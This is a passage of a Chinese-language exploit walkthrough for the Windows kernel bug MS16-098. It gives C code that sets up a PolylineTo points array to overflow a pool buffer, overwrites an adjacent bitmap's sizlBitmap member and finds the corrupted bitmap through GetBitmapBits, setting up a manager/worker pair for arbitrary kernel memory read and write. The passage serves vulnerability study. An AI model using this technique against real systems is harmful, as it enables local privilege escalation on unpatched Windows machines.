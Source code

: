 在第二次检查中，对point.x也进行了同样的才检查。current point.x(ebx)减去了previous point.x(r8d)，如果结果是无符号的，函数将复制0x1到`r15+0x24`指向的位置。对于大小为0x30字节的点结构，它还将值1复制到`r15+0x24`所指向的对象的hdev成员。

计算溢出缓冲区以到达sizLBitmap成员的点的数量很容易，而且该漏洞实施的方式只是更改previous point.y变为更大的值，这将不会通过前面讨论的主检查，因此这些点将不会被复制，查看来自exp的代码片段。

```C
static POINT points[0x3fe01];
for (int l = 0; l < 0x3FE00; l++) {
	points[l].x = 0x5a1f;
	points[l].y = 0x5a1f;
}
points[2].y = 20; //0x14 < 0x1f
points[0x3FE00].x = 0x4a1f;
points[0x3FE00].y = 0x6a1f;
```

以上是初始化的points数组的方法，注意points[2].y被设置为20(0x14<0x1f)(?)，因此会拷贝后面的point到我们分配的buffer里。

```C
for (int j = 0; j < 0x156; j++) { if (j > 0x1F && points[2].y != 0x5a1f) {
		points[2].y = 0x5a1f;
	}
	if (!PolylineTo(hMemDC, points, 0x3FE01)) {
		fprintf(stderr, "[!] PolylineTo() Failed: %x\r\n", GetLastError());
	}
}
```

在调用PolyLineTo函数的循环中添加了一个check：检查循环的iteration是否大于0x1f，然后改变points[2].y的值，该值将会大于0x1f0，这就会使得check fail，后续的点不会被复制到我们的缓冲区。

这将有效地控制溢出：函数直到下一个相邻的bitmap object的成员sizlBitmap被覆盖为0x1或0xffffffff时才会溢出缓冲区（执行copy），有效地扩展了该bitmap object，允许我们读写bitmap object的原始边界。通过迭代循环，找出我们想要的bitmap的方法就是调用GetBitmapBits ，检查object大小是否大于我们池喷射时候设置的大小；若是则该object就是被溢出的object，让它成为manager，下一个bitmap object作为worker。代码如下：

```C
for (int k=0; k < 5000; k++) { res = GetBitmapBits(bitmaps[k], 0x1000, bits); if (res > 0x150) // if check succeeds we found our bitmap.
}
```

如果一切按照计划进展顺利的话，我们应该能够读写0x1000bits的内存。下图是溢出前后的bitmap object，注意header、成员sizLBitmap 和 hdev都被溢出了。

![image-20201023002328671](MS16-098.assets/image-20201023002328671.png)
